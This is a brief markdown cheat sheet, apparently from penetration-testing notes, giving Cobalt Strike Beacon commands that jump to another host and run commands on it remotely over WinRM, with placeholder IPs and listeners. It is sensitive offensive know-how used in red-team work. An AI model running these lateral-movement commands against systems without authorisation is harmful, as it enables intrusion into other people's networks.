 # Cobalt Strike

## 01 - Jump

```
beacon> jump <winrm | winrm64> <IP> <listener>
```

## 02 - Remote-Exec

### 2.1 - Execute Commands

```
beacon> remote-exec winrm <IP> <cmdlets>
```